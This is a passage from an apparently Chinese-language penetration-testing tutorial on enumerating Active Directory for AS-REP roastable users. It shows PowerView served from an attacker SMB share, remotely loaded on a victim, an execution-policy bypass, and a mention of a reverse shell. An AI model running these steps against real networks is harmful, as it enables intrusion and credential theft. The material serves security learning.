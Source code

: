 ![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182703735-664274385.png)

> 注：如果上述操作失败，则可以试试 MSF 制作的 powershell 类型的反向 shell。
> 
> 若获得的立足点是普通用户权限、且服务器也从没使用过 powershell、其执行策略也还是默认策略 RemoteSigned 时，建议还是**绕过使用 ps1 脚本进行枚举利用**，去想想其它办法吧，因为这环境无法加载外部脚本。
> 
> 若拥有管理员权限，则可以设置 powershell 的执行策略，使其可以加载外部脚本。`Set-ExecutionPolicy -ExecutionPolicy Bypass`
> 
> powershell 的执行策略已是 bypass，则不管是管理员用户还是普通用户都可正常加载外部脚本。

#### **

5.1、PowerView.ps1

**

**PowerView** 是 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 集合中的一个 PowerShell 脚本。

在攻击机下载 PowerView 脚本之后，我们可以为其设置 SMB 共享，以供受害机可以远程加载。

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182702815-495705708.png)

    smbserver.py share $(pwd) -smb2support
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182703846-1361231984.png)

然后在受害机通过以下命令远程加载该脚本。

    . \\172.16.1.30\share\PowerView.ps1
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704221-113031883.png)

Perfect！没有看到任何错误，这意味着 PowerView 已成功加载到当前的 PowerShell 会话中了。

接下来，就可以通过以下 Get-DomainUser 命令来提取域中所有 AS-REP 可烘烤用户的列表：

    Get-DomainUser -PreauthNotRequired -Verbose | select samaccountname
    

![](https://img2024.cnblogs.com/blog/1503193/202505/1503193-20250520182704619-655456251.png)

> 注：有时候在不同的账户不同权限不同的登录方式下，这些工具也可能会出现判断错误或异常的情况，建议直接手工获取一份域用户列表（`net user /domain`），然后再使用 kerbrute 去检查一遍。

#### **

5.2、Import-ActiveDirectory.ps1

**

与 PowerView 类似，[**Import-ActiveDirectory**](https://github.com/samratashok/ADModule) 也是一个 PowerShell 脚本，它允许管理员（和攻击者）轻松查询有关域的信息。

> 注：此处我直接以 Import-ActiveDirectory 作为说明对象，但原文是以 **Remote Server Administration Tools (RSAT)** 作为介绍对象。
